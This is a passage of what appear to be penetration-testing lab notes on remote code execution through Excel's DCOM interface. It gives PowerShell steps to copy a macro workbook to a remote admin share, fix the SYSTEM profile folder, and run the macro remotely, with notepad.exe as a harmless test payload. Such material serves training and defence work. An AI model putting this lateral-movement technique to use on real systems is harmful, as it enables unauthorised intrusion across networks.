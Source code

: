 2. Discover the created instance's methods and objects

   ```powershell
   $com | Get-Member
   ```

   In this example, we see a `Run` method, that can be used to run VB macros.

#### Create the Proof of Concept

1. Create a new document in Excel, then going to View -> Macros and creating a new macro.

2. Enter some test code

   ```vbscript
   Sub mymacro()
       Shell ("notepad.exe")
   End Sub
   ```

3. Save the macro and save the Excel file in legacy format (97-2003 Workbook)

4. Copy the document to the remote computer.  This script works due to the assumption of Local Admin rights on the remote machine.

   ```powershell
   $LocalPath = "C:\Users\jeff_admin\desktop\myexcel.xls"
   $RemotePath = "\\172.16.216.5\c$\myexcel.xls"
   [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
   
   # Options
   $True 	# This flag indicates the destination file should be overwritten if it exists
   ```

5. Open the Excel document on the remote system using the `$com` object

   ```powershell
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   ```

   - If this results in an error, it is because the remote system is uses the SYSTEM account to open the workbook and Excel requires the account to have a profile folder.  Fix that with the following:

     ```powershell
     # Create a var to make a Desktop folder for SYSTEM
     $Path = "\\172.16.216.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
     # Create the directory
     $temp = [system.io.directory]::createDirectory($Path)
     ```

6. Call the run method of the `$com` object to run the macro

   ```powershell
   $com.Run("mymacro")
   ```

   Logging into the machine will show notepad.exe running in the background in a High Integrity context.
